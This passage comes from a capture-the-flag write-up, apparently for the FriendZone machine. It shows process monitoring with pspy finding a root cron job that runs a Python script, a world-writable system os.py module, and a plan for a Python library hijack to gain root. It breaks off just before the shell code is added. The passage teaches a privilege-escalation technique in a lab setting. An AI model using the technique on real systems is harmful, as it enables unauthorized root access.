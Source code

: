 #### Cron

I uploaded [pspy](https://github.com/DominicBreuker/pspy) to target, and noticed that root was running this script every two minutes:

```

2019/02/12 15:18:01 CMD: UID=0    PID=26106  | /usr/bin/python /opt/server_admin/reporter.py 
2019/02/12 15:18:01 CMD: UID=0    PID=26105  | /bin/sh -c /opt/server_admin/reporter.py 
2019/02/12 15:18:01 CMD: UID=0    PID=26104  | /usr/sbin/CRON -f 
2019/02/12 15:20:01 CMD: UID=0    PID=26109  | /usr/bin/python /opt/server_admin/reporter.py 
2019/02/12 15:20:01 CMD: UID=0    PID=26108  | /bin/sh -c /opt/server_admin/reporter.py 
2019/02/12 15:20:01 CMD: UID=0    PID=26107  | /usr/sbin/CRON -f 

```

#### os.py

Finally, I noticed that the python module, `os`, was writable:

```

friend@FriendZone:/usr/lib/python2.7$ find -type f -writable -ls
   262202     28 -rw-rw-r--   1 friend   friend      25583 Jan 15 22:19 ./os.pyc
   282643     28 -rwxrwxrwx   1 root     root        25910 Jan 15 22:19 ./os.py

```

### Python Library Hijack

Rastating has a good write-up on [Python Library Hijacking](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/). I can use the following command to see the python path order:

```

friend@FriendZone:/dev/shm$ python -c 'import sys; print "\n".join(sys.path)'

/usr/lib/python2.7
/usr/lib/python2.7/plat-x86_64-linux-gnu
/usr/lib/python2.7/lib-tk
/usr/lib/python2.7/lib-old
/usr/lib/python2.7/lib-dynload
/usr/local/lib/python2.7/dist-packages
/usr/lib/python2.7/dist-packages

```

I *think* that blank line at the top indicates the current directory of the script.

The most common case for this kind of hijack is finding the directory containing the python script writable. In that case, I could drop an `os.py` in next to `reporter.py` and it would load there before checking `/usr/lib/python2.7/`. In this case, I actually can’t write to `/opt/server_admin/`. But I can write directly to the normal version of this module.

I’ll open the file in `vi`, and go to the bottom. There, I’ll add a shell to myself:
